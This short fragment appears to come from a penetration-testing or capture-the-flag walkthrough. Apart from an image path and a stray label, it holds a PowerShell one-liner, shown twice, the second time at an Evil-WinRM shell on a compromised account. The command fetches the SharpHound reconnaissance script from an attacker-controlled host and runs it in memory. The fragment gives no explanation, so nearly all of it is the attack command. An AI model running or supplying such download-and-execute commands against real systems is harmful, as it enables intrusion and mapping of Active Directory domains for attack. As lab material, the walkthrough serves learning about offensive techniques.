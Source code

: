 Not case sensitive
 
iex(new-object net.webclient).downloadstring('http://10.10.16.52/SharpHound.ps1')

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iex(new-object net.webclient).downloadstring('http://10.10.16.52/SharpHound.ps1')